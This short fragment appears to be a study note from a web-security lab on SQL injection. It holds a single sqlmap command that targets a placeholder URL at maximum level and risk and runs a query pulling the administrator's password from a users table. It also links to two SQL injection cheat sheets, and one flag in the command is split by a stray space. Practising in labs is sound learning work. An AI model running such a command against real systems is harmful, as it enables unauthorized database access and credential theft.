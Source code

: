 ____

```bash
sqlmap -u "URL" --cookie='lab=cookie' --level 5 --risk 3 -p param --batch --threads 10 --dbms=postgresql --sq l-query="SELECT password from USERS where username='administrator'"
```

[https://tib3rius.com/sqli](https://tib3rius.com/sqli) 

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)






